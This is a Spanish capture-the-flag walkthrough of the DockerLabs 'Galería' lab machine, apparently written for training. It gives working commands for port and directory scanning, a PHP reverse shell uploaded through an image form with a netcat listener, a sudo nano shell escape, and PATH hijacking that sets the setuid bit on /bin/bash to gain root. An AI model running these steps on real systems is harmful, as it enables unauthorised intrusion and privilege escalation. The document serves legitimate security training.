___
Tags: #webshell #PHP_Pentest_Monkey #webshell #PathHijacking #privesc
___
# Galería

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  web shell ,Path hijacking, privesc <br>
**- Fecha de resolución:** 27/02/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su ttl es 63. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```

| Open port | Service | Version                        |
| --------- | ------- | ------------------------------ |
| 21        | ftp     | vsftpd 3.0.5                   |
| 80        | http    | Apache httpd 2.4.58 ((Ubuntu)) |

<p align="center"> 

</p>

He probado el puerto FTP, pero no he conseguido nada interesante.

### Enumeración web

#### Gobuster

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Explorando la ruta gallery... me encuentro la siguiente ruta en la cual, puedo subir imagen

```
http://172.17.0.2/gallery/uploads/handler.php
```

## Explotación

<p align="center"> 

</p>


En esta [página](https://www.revshells.com) Escojo El payload **PHP PentestMonkey** Con la idea de obtener una shell mediante la subida de archivo

<p align="center"> 

</p>

Una vez subido, me voy a esta ruta: 

```
http://172.17.0.2/gallery/uploads/images/
```

<p align="center"> 

</p>

Preparo el puerto de escucha

```
nc -lnvp 4443
```

<p align="center"> 

</p>

## Explotación Posterior

### Tenemos que conseguir una conexión más estable (TTY)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

```
stty rows 44 columns 184
```

Con este comando pongo la terminal al usar nano más grande.

### Escalada de Privilegios

```
sudo -l
```

<p align="center"> 

</p>

Para explotar este binario tendremos que venirnos a esta [pagina](https://gtfobins.org/gtfobins/nano/#shell)

<p align="center"> 

</p>

En este punto, nos tendremos que suponer... porque la idea es acceder a un usuario mediante este binario, la carpeta donde se guarda todas las imágenes y se realizan la subida es en **gallery** y que suponemos que es el usuario, por tanto, el comando quedaría:

```
sudo -u gallery /bin/nano
```

Luego **control R y control X***
Nos pedirá que ejecutemos un comando que será este:

```
reset; sh 1>&0 2>&0
```

<p align="center"> 

</p>

Para arreglar un poco la shell, tendremos que usar este comando:

```
script /dev/null -c bash
```

<p align="center"> 

</p>

```
sudo -l
```

<p align="center"> 

</p>

#### Path hijacking

```
strings /usr/local/bin/runme
```

>Lo que muestras con strings es que apunta a un fuerte binario runme que ejecuta un comando del sistema para convertir una imagen usando ImageMagick:

>convert /var/www/html/gallery/uploads/images/input.png 

Por tanto, me situó en la carpeta **/tmp**. Creo el siguiente scripting llamado **convert**

```bash
#!/bin/bash
chmod u+s /bin/bash
```

```
chmod +x convert
export PATH=.:$PATH
```

> Lo que hace es **poner el directorio actual** (`.`) al principio de la variable `PATH`, para que al ejecutar un comando sin ruta (por ejemplo `convert`) el sistema busque primero en “aquí” antes que en `/usr/bin`, etc. Y los (`:`) lo hace es separar, quedaría tal que así el $PATH

```bash 
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Antes de ejecutar el binario la /bin/bash estaría

<p align="center"> 

</p>

Luego después de ejecutar el binario

```
sudo /usr/local/bin/runme
```

<p align="center"> 

</p>

```bash
bash -p
```

<p align="center"> 

</p>

## Conclusión

La máquina **Galería** de _DockerLabs_ me ha parecido bastante accesible en la fase de conseguir acceso como el usuario `www-data`, ya que se repasa un vector clásico: el uso de una **webshell** para obtener ejecución de comandos.

En cambio, la fase de escalada de privilegios la situaría en una dificultad media, porque requiere investigar y probar varios binarios hasta dar con la forma de elevar privilegios. En esta parte se trabaja el **PATH hijacking** y se ve de forma práctica cómo puede explotarse esta vulnerabilidad para llegar finalmente a la escalada.